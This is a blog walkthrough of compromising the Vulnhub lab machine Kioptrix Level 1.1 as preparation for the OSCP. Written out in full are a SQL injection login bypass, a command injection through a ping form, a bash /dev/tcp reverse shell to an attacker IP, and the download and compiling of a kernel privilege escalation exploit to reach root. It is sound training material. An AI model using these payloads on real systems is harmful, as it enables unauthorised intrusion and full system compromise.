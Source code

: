 ```yaml
---
layout: post
title: " Kioptrix - Level 1.1"
date: 2020-08-07
excerpt: "Walkthrough for Kioptrix Level21 on Vulnhub"
tags: [SQL injection, command execution, privilege escalation]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) Level 1.1 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix Level 1.1 netdiscover](/assets/img/KioptrixLevel21.png)

Next, I ran **threader3000** and let it run it's suggested nmap scan to enumerate the open ports.

![Kioptrix Level 1.1 threader3000](/assets/img/KioptrixLevel22.png)

![Kioptrix Level 1.1 nmap](/assets/img/KioptrixLevel23.png)

Let's take a look at the websites on ports 80 and 443 to start. The same site comes up asking you to login both over http and https.

![Kioptrix Level 1.1 website](/assets/img/KioptrixLevel24.png)

We know mysql is running on port 3306 based on nmap, so let's try to use basic SQL injection to see if we can bypass authentication. For the username I entered **admin** and for the password I entered **' or 1=1 -- -**

This allowed me to bypass authentication and leads me to a screen that allows me to ping a machine on the network.

![Kioptrix Level 1.1 Basic Admin Console](/assets/img/KioptrixLevel25.png)

Let's enter the following and see what happens: **127.0.0.1;whoami**. This causes another tab to open up, where it shows the results of pinging localhost along with the user on the last line (apache). This confirms that this is open to command injection!

![Kioptrix Level 1.1 command injection](/assets/img/KioptrixLevel26.png)

Open up a new terminal window from your attacker pc and run **nc -nvlp 4444** to start a listener on port 4444.

![Kioptrix Level 1.1 nc listener](/assets/img/KioptrixLevel27.png)

Go back to your web browser, close the newly opened tab with the ping/whoami output, and  go back to the admin web console. Enter **127.0.0.1;bash -i >& /dev/tcp/[attacker ip]/4444 0>&1** and click on submit.

![Kioptrix Level 1.1 command injection reverse shell](/assets/img/KioptrixLevel28.png)

Once submitted, look at your terminal with the netcat listener, you should have a reverse bash shell.

![Kioptrix Level 1.1 reverse shell](/assets/img/KioptrixLevel29.png)

Running **whoami** shows that you are the **apache** user. Running **uname -a** shows that this is using Linux Kernel **2.6.9-55.EL** on an i386 platform.

![Kioptrix Level 1.1 whoami uname -a](/assets/img/KioptrixLevel210.png)

On another terminal window on your attacker pc, run **searchsploit 2.6.x**, and you will find a Local Privilege Escalation exploit as shown below:

![Kioptrix searchsploit Linux Kernel](/assets/img/KioptrixLevel211.png)

Let's run **searchsploit -m 9545** to make a copy of this script in our current directory and run **python3 -m http.server** to serve up a python HTTP server.

![Kioptrix Level 1.1 searchsploit copy python http server](/assets/img/KioptrixLevel212.png)

From your apache shell on the victim computer, run **cd /tmp** followed by **wget http://[attacker ip]:8000/9545.c**

![Kioptrix Level 1.1 wget copy exploit](/assets/img/KioptrixLevel213.png)

Next, run **cat 9545.c** and look at the comments, you will see a section on how to compile this exploit.

![Kioptrix Level 1.1 cat exploit](/assets/img/KioptrixLevel214.png)

To compile this exploit, run **gcc -Wall -o 9545 9545.c**, as the filename we're using is 9545.c instead of linux-sendpage.c. This will create an executable called 9545 in the /tmp folder.

![Kioptrix Level 1.1 compile exploit](/assets/img/KioptrixLevel215.png)

As you can see, this compiled as **9545** and is executable. run **./9545** and you should end up with a root shell!

![Kioptrix Level 1.1 root shell](/assets/img/KioptrixLevel216.png)

That's it! There wasn't any flags I could find like in Level 1, so I don't believe there is one present on this box.